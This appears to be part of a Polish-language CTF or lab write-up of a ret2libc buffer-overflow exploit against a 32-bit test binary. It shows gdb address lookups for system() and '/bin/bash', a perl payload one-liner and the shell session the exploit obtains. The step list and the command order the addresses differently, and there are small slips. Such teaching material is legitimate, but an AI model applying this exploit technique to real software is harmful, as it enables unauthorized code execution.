    Osadzenie adresu spowodowało wykonanie funkcji, która wypisała na konsolę "BAM!" oraz "/bin/bash".

2. Wywołanie funkcji `system` i shella bashowego.
   
   Funkcja `system(string)` przyjmuje komendę jako argument. 
   Ale najpierw trzeba odnaleźć miejsce w pamięci wskazujące na string z komendą tj. ścieżka do shella.

   Potrzebne są:
   - Adres tesktu `/bin/bash`.
      Debuggując program, można go znaleźć w funkcji `validate`, bo jest tam wyświetlany.

      Fragment funkcji `validate`:
      
      ```
      0x080485e9 <+18>: mov    0x804a030,%eax
      0x080485ee <+23>: mov    %eax,(%esp)
      0x080485f1 <+26>: call   0x80484b4 <puts@plt>
      ```
      
      Sprawdzenie adresu tesktu:

      `p/s *0x804a030`
      
      >0x80487d0:   "/bin/bash"

   - Adres funkcji `system`.
   
      Szukamy adresu funkcji exit debbugując program: 

      `p system`
      
      >0x8048454


3. Budowa shellcode'u:
   - 67 jedynek
   - 4 bajty adresu funkcji `system`: 0x08048454
   - 4 bajty adresu tesktu "bin/bash": 0x080487d0
   - 4 bajty adresu funkcji exit: 0x080484d4

   ```bash
   ./55 `perl -e 'print "1"x67 . "\x54\x84\x04\x08" . "\xd4\x84\x04\x08" . "\xd0\x87\x04\x08" . "\x0\x0\x0\x0"'`
   ```

   Program zakończył się pomyślnie:
   
    ```
    root@7369972b675e:/workspace# ./55 `perl -e 'print "1"x67 . "\x54\x84\x04\x08" . "\xd4\x84\x04\x08" . "\xd0\x87\x04\x08" . "\x0\x0\x0\x0"'`
    To continue you must provide security access token (21 digits)
    root@7369972b675e:/workspace# echo hania
    hania
    root@7369972b675e:/workspace# exit
    exit
    root@7369972b675e:/workspace#
    ```

